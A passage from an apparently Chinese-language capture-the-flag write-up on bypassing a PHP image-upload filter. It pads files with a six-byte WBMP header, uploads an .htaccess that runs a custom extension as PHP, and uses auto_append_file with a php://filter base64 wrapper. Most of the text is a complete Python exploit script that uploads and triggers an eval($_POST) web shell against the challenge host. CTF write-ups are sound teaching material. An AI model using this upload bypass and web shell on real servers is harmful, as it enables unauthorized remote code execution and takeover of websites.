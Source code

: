 定义一个有效的 `.wbmp` 文件只需要6个字节，我们可以假设宽度和高度在第3至第6字节存储。通过hex editor，你可以修改这些字节来得到1337x1337的大小 

```sh
$ xxd truncated.wbmp
00000000: 0000 8a39 8a39                           ...9.9
```

### 找到php代码执行方法

既然可以上传.htaccess文件，下一步就是找到代码执行的方式。由于`被过滤，不能简单地上传PHP脚本并让它执行。

`php_value`是 .htaccess 文件中可以用的指令之一。该指令允许我们使用`PHP_INI_PERDIR`标志修改[此处列表](http://php.net/manual/en/ini.list.php)里的任何设置。

在这些设置中，有个 `auto_append_file` ，它允许我们在请求PHP文件时添加或包含一个文件。后来发现，`auto_append_file` 还允许各种包装器，如`php://`。

上传一个.htaccess文件，设置扩展名为`.ricky`的文件当做PHP执行，并在最后添加 `php://filter/convert.base64-encode/resource=shell.ricky`

脚本如下

```python
#!/usr/bin/env python3
# -*-coding:utf-8-*-

import requests
import base64

VALID_WBMP = b"\x00\x00\x8a\x39\x8a\x39\x0a"
URL = "http://38f0cae3-850b-4ce3-b8ab-7f368b745941.node3.buuoj.cn/"
RANDOM_DIRECTORY = "4b908db0cb4511f942feb821a226ba66c216daad"  # 上传后刷新查到目录再进行修改

COOKIES = {
    "PHPSESSID": "e2s5o4f9dud4rjesdovgmgf877"}

def upload_content(name, content):

    data = {
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .ricky
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.ricky"
"""
TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"""
<?php
  eval($_POST[ricky]);
?>
""")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.ricky", TARGET_FILE)
upload_content("trigger.ricky", VALID_WBMP)


response = requests.post(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.ricky")
print(response.text)
```
